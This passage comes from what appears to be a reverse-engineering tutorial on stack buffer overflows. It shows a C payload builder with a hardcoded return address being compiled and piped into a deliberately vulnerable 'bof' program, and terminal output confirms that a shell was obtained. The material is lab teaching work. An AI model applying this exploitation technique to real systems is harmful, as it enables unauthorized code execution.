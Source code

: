                 // b_junk
                "bbbb"

                // buffer Address
                "\xd8\xcb\xff\xff";


                // Payload is stored in a file named "payload.txt"
                FILE *fp = fopen("payload.txt", "wb");
                fwrite(payload, sizeof(payload), 1, fp);
                fclose(fp);
                
                return 0;
            }

    * The buffer Address is changed. 

    * Let us compile and run it and store the correct payload in **payload.txt**. 

            rev_eng_series/post_12$ gcc build_payload.c -o build_payload
            rev_eng_series/post_12$ ./build_payload

    * Let us run **bof** with payload. 

            rev_eng_series/post_12$ cat payload.txt - | ./bof
            Before calling func
            Address of buffer = 0xffffcbd8


            whoami
            adwi
            who
            adwi     tty7         Dec  7 11:35 (:0)
            ls
            bof	       build_payload.c	 payload.txt		shell32
            bof.c	       build_payload.py  peda-session-bof.txt	shell32_no_null.asm
            build_payload  exploit.txt	 peda-session-dash.txt	shell32_no_null.o
            ls -al
            total 72
            drwxrwxr-x  2 adwi adwi 4096 Dec  8 01:54 .
            drwxrwxr-x 15 adwi adwi 4096 Dec  7 23:18 ..
            -rw-------  1 adwi adwi  464 Dec  8 01:46 .gdb_history
            -rwxrwxr-x  1 adwi adwi 7440 Dec  8 00:04 bof
            -rw-rw-r--  1 adwi adwi  241 Dec  8 00:04 bof.c
            -rwxrwxr-x  1 adwi adwi 8776 Dec  8 01:54 build_payload
            -rw-rw-r--  1 adwi adwi  604 Dec  8 01:52 build_payload.c
            -rw-rw-r--  1 adwi adwi  217 Dec  8 01:54 payload.txt
            -rw-rw-r--  1 adwi adwi   12 Dec  8 01:48 peda-session-bof.txt
            -rw-rw-r--  1 adwi adwi   27 Dec  8 01:50 peda-session-dash.txt
            -rwxrwxr-x  1 adwi adwi  516 Dec  7 23:59 shell32
    
    * Woohoo! We got the shell!


With this, we will conclude our first example. Let us summarize the steps we followed to get a shell from bof: 

1. Run the vulnerable program using gdb. Do complete study of stack. Find the buffer Address, StackAddress where Return Address is stored and any other details required for exploitation. 
